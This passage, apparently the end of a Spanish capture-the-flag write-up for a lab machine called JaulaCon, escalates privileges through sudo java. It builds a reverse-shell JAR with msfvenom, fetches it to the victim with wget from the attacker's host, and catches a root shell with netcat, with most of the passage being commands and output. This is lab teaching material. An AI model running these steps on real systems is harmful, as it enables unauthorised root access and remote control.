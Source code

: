Aquí dejo un blog que lo explica:
<a href="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-java-privilege-escalation/" target="_blank">Sudo Java Privilege Escalation</a>

Vamos a crear la **Reverse Shell** con **msfvenom**:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=Tu_IP LPORT=1337 -f jar -o shell.jar
Payload size: 7506 bytes
Final size of jar file: 7506 bytes
Saved as: shell.jar
```

Como en la máquina víctima tenemos **wget**, podemos levantar un servidor de **Python** en donde tengamos el **archivo JAR** y descargarlo:
```bash
jaula@JaulaCon:~$ wget http://Tu_IP/shell.jar
--2025-03-27 01:11:38--  http://Tu_IP/shell.jar
Conectando con Tu_IP:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 7506 (7,3K) [application/java-archive]
Grabando a: «shell.jar»
.
shell.jar  100%[===========================>]   7,33K  --.-KB/s    en 0s
```

Abre una **netcat**:
```bash
nc -nlvp 1337
listening on [any] 1337 ...
```

Y lo descomprimimos con el **binario java**:
```bash
jaula@JaulaCon:~$ sudo /usr/bin/java -jar shell.jar
```

Observa la **netcat**:
```bash
nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.200] 37278
whoami
root
/bin/bash -i
root@JaulaCon:/home/jaula# whoami
whoami
root
```

Ya solo buscamos la última flag:
```bash
root@JaulaCon:~# ls
ls
root.txt
root@JaulaCon:~# cat root.txt           
cat root.txt
...
```
Y con esto terminamos la máquina.
